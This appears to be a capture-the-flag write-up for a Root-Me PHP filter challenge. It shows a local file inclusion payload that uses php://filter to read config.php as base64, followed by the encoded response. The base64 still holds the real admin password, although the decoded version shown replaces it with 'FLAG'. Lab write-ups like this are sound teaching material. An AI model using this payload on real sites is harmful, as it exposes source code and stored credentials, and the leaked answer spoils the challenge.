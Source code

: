 If you click on the login button, you will see that the address contains a variable ?inc=login.php.
(inc like in include)

The title of the challenge invite us to use php filters. After going through the documentation, we use the filters exploit, and enter something like:

```
http://www.root-me.org/challenge/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php
```

We get the following response, which corresponds to the content of the file **config.php** encrypted in base64.
```
PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==
```

Just decode this (with whatever you want, I did this with base64.b64decode in Python).

Here is a useful link : https://www.base64decode.org/

You obtain the following result:
```
<?php

$username="admin";
$password="FLAG";

?>
```
